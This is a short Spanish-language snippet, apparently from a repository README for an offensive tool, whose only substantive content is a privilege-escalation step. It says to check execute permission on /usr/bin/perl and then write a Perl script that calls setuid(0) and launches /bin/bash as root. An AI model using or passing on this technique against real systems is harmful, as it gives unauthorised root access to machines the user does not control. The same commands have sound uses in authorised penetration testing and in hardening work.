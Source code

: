 Usa el comando -h -help para lograr ver los comando disponibles a tu usuario.

1. Escalar Privilegios;
     - Checkear  permiso de ejecucion de perl  ( ls - l /usr/bin/perl )  en caso  de que si 
	  escalar con (  echo -ne '#!/bin/perl \nuse POSIX qw(setuid); \nPOSIX::setuid(0); \nexec "/bin/bash";' > script.pl  )